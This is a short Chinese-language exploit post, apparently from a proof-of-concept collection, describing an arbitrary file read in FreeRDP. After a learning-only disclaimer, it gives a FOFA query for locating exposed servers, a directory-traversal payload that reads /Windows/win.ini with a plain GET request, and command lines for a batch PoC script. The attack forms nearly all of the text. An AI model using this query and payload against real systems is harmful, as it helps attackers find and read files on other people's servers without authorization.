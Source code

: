 # FreeRDP存在任意文件读取漏洞  

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa:body="css/vkb.css"

POC:

 /../../../../../../../../Windows/win.ini



直接GET请求即可



批量poc(记得安装库)

python poc.py -u 



python poc.py -f  .txt

